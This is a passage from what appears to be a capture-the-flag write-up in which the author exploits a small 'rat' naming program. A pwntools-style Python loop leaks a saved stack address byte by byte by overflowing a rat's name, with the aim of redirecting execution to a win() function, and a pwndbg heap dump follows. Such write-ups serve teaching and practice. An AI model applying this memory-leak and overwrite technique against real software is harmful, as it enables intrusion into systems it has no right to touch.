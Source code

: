 one thing that is nice turns into an annoying one... though it allows the
address to be actually leaked. recall that the program places a nullbyte two
characters after the last letter of the defined name. *well*, this means that,
at any given time, we can only leak one character. thus, to get all 8 bytes of
the address, we would either:

a. repeatedly delete and recreate the same rat, hoping that malloc will always
   create the rat at the same point. this rat would have to be the rat just
   after the one being renamed
b. create 10 rats total, one is the first one with weird cyclic behaviour, the
   next eight are made to determine the stack pointer and the last one would be
   the address to overwrite to `win()`. this also requires luck that all 10 rats
   are placed next to one another in memory.

I'm going to go with a. for now.

```py
stack_ptr = b''
addr_regex = re.compile(b"b*(.)\.\n")

for i in range(8):
    get_stack_ptr = [
        b'3\n1\n', # rename rat at index 1
        b'b' * (name_len_to_leak_stack + i) + b'\n', # remove characters leading up to
                                                     # saved stack addr, leak
                                                     # the i-th character
        b'2\n1\n', # greet the rat at index 1
    ]
    io.send(b''.join(get_stack_ptr))
    # print(io.recvuntil("bbbbbbbb"))
    io.recvuntil("bbbbbbbb")

    stack_ptr_str = io.recvline()
    print(stack_ptr_str)

    stack_ptr = addr_regex.match(stack_ptr_str).group(1) + stack_ptr
    print(f"current stack_ptr={stack_ptr}")

    del_rat = [
        b'4\n2\n', # delete rat at index 2
        b'1\n', # create rat at index 2, hopefully in old spot
        b'overwrite me :)\n',
    ]

    io.send(b''.join(del_rat))
```

diving deeper into the exploit itself, it looks like it *is* possible to use
this method, however, when freeing up the `malloc`-ed space, we run into a
`SIGABRT` stop code :(. however, taking another look at the memory dump, there
is a possible explaination as to why this error occurs.

```sh
pwndbg> x/40wx 0x5555555592a0
0x5555555592a0:	0xffffdd80	0x00007fff	0x55555269	0x00005555
0x5555555592b0:	0x616e6162	0x0000616e	0x00000000	0x00000000
0x5555555592c0:	0x00000010	0x00000000	0x00000031	0x00000000
0x5555555592d0:	0xffffdd80	0x00007fff	0x55555269	0x00005555
0x5555555592e0:	0x6f6f6877	0x00007370	0x00000000	0x00000000
0x5555555592f0:	0x00000010	0x00000000	0x00000031	0x00000000
```

